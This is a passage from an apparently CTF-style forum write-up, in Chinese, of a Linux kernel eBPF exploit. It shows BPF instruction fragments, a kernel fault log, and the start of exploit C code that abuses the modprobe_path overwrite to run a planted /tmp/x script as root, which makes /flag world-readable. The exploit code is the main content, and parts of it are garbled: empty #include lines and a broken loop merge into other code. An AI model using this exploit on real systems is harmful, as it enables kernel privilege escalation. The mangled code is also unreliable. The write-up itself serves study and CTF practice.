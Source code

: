 ```
 
       BPF_STX_MEM(BPF_DW, BPF_REG_3, BPF_REG_5, 0),
       BPF_MOV64_IMM(BPF_REG_0, 0),
       BPF_EXIT_INSN(),
 
   };

```

在写的时候我发现了一个问题，对于 modprobe_path 这块内存，如果最终

```
BPF_ALU64_IMM(BPF_OR, BPF_REG_2, modprobe_path_low32),

```

将这一句的 OR 换成 ADD，会触发到内核的内存保护。

```
[    3.485700] general protection fault, probably for non-canonical address 0xffffffe8284db40: 0000 [#1] SMP NOPTI

```

但是如果用 OR ， 则可以正常写内存。暂不知道是为什么。

 

最后执行 我们 fake 的文件即可。

 

![](https://bbs.pediy.com/upload/attach/202107/876323_BJG56CK5E3PT89C.png)

exp
---

```
#define _GNU_SOURCE
#include #include #include #include #include #include #include #include #include #include #include #include #include "bpf_insn.h"   
#define BPF_JMP32       0x06    /* jmp mode in word width */
int expmapfd;
int expmapfd2;
int progfd;
int progfd2;
int sockets[2];
#define LOG_BUF_SIZE 65535
char bpf_log_buf[LOG_BUF_SIZE]; //bpf的log信息被存储在这里
void gen_fake_elf(){
    system("echo -ne '#!/bin/sh\nid\n/bin/chmod 777 /flag\n' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\xff\xff\xff\xff' > /tmp/fake");
    system("chmod +x /tmp/fake");
}
void init(){
    setbuf(stdin,0);
    setbuf(stdout,0);
    //setbuf(stderr,0);
    gen_fake_elf();
}
void x64dump(char *buf,uint32_t num){        
    uint64_t *buf64 =  (uint64_t *)buf;      
    printf("[--dump--] start : \n");        
    for(int i=0;i>32)&0xfffffff;
    printf("modprobe_path_high32: %#llx\nmodprobe_path_low32: %#llx\n",modprobe_path_high32,modprobe_path_low32);
 
    uint64_t overwrite = 0x782f706d742f;  
```